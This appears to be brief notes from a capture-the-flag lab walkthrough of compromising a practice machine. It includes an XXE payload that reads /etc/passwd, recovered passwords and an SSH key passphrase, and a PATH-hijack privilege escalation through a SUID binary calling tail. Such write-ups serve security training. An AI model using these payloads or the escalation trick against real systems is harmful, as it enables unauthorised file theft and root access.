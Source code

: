 start with nmap

22
80
8765

***

80 http

http://10.10.89.43/custom/js/users.bak

found admin: bulldog19

***

<!-- Barry, you can now SSH in using your key!-->

found user barry



```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd">]>
<comment>
	<name>test</name>
	<author>Barry Clad</author>
	<com> &example; </com>
</comment>

```

got barry private key.


key is encrypted with passphase

crack with ssh2john : `urieljames`

***

privs

suid bit set on : /home/joe/live_log


strings live_log

found that this binary uses tail without proper path.

tail -f /var/log/nginx/access.log

add /tmp to path
`export PATH=/tmp:$PATH`

`echo "/bin/bash" > /tmp/tail`

`chmod +x /tmp/tail `

`./live_log `

GOT root shell


